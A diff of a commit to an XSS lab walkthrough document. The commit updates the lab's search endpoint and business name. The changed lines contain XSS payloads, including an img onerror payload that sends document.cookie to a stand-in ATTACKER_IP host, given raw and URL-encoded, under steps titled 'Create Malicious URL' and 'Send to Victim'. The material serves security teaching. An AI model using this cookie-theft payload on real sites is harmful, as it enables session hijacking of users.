

Before and after one commit to phwrscr1pt/Hackdaybc, a Markdown page: docs/walkthrough-xss.md, 3 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/docs/walkthrough-xss.md
+++ b/docs/walkthrough-xss.md
@@ -1,7 +1,8 @@
 # XSS Lab Walkthrough
 
 > **Lab URL:** http://10.10.61.221/search/
-> **Business Name:** Tech Blog
+> **Search Endpoint:** http://10.10.61.221/search/search?q=
+> **Business Name:** ByteWise Developer Blog
 > **Last Verified:** March 2026
 
 ---
@@ -87,7 +88,7 @@ This bypasses the filter because it doesn't use script tags.
 
 URL:
 ```
-http://10.10.61.221/search/?q=<script>alert('XSS')</script>
+http://10.10.61.221/search/search?q=<script>alert('XSS')</script>
 ```
 
 ### Alert with Domain
@@ -178,12 +179,12 @@ Or using Image object:
 ### Step 5.3: Create Malicious URL
 
 ```
-http://10.10.61.221/search/?q=<img src=x onerror="fetch('http://ATTACKER_IP:8888/?c='+document.cookie)">
+http://10.10.61.221/search/search?q=<img src=x onerror="fetch('http://ATTACKER_IP:8888/?c='+document.cookie)">
 ```
 
 URL encode it:
 ```
-http://10.10.61.221/search/?q=%3Cimg%20src%3Dx%20onerror%3D%22fetch(%27http%3A%2F%2FATTACKER_IP%3A8888%2F%3Fc%3D%27%2Bdocument.cookie)%22%3E
+http://10.10.61.221/search/search?q=%3Cimg%20src%3Dx%20onerror%3D%22fetch(%27http%3A%2F%2FATTACKER_IP%3A8888%2F%3Fc%3D%27%2Bdocument.cookie)%22%3E
 ```
 
 ### Step 5.4: Send to Victim
````
Also changed, not shown: other parts of docs/walkthrough-xss.md (+21 -16 lines).
